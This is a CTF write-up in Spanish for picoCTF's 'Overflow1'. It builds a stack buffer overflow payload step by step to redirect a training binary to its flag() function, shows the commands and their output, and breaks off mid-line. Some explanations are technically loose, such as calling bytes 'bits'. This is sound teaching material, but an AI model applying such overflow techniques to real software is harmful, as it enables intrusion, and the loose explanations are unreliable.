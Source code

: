 Overflow1
============
El ejercicio nos dice que debemos lograr direccionar el programa a la función flag()
Así mismo el archivo vuln.c nos muestra que tiene un buffer máximo de [64], Así que al sobrepasarlo obtendremos el overflow


Empecemos llenando el buffer.


    root@lanz$ python -c 'print "A"*65' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048705 !


Aún no pasa nada, ya que tenemos 8 bits que guarda en memoria, es como un repuesto.
Al sumar 8 (los bits) + 64 (el buffer)


    root@lanz$ python -c 'print "A"*72' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048705 !
    Violación de segmento


Ahora, lo que nos pide el ejercicio es lograr redireccionar a la función flag()
Así que obtendremos la dirección en memoria de la función y se la agregaremos a lo que ya tenemos, con eso lograremos que mantenga las "A"*72 y después de eso agregue la dirección de flag()


Con gdb, objdump, ida, etc... Con cualquiera podemos obtener la dirección.


```
0x080485e0  frame_dummy
0x080485e6  flag
0x0804865f  vuln
0x0804869e  main
```


Como el computador lee las instrucciones de derecha a izquierda, debemos tomar la dirección (0x080485e6) y anotarla así mismo, de derecha a izquierda


    root@lanz$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x8048700 !
    Woah, were jumping to 0x8048705 !
    Violación de segmento


¿Por que habrá salido dos veces la instrucción?
(No lo sé, investigare y editare esto)


Así que aún no hemos llegado a la función flag


    Woah, were jumping to 0x8048700 !
    Woah, were jumping to 0x8048705 !


Si imprimimos "A"*73 vemos esto:


    root@lanz$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
    Woah, were jumping to 0x8040008 !


Hemos cambiado el registro que direcciona!!


Al haber agregado 4 bits (el tamaño de la dirección de la función flag), entonces 72 + 4


    root@lanz$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets see what happens: 
    Woah, were jumping to 0x80485e6 !
    Flag File is Missing. please contact an Admin if you are running this on the shell server.


Si lo corremos en la shell de picoCTF


    user@pico$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
    Give me a string and lets s
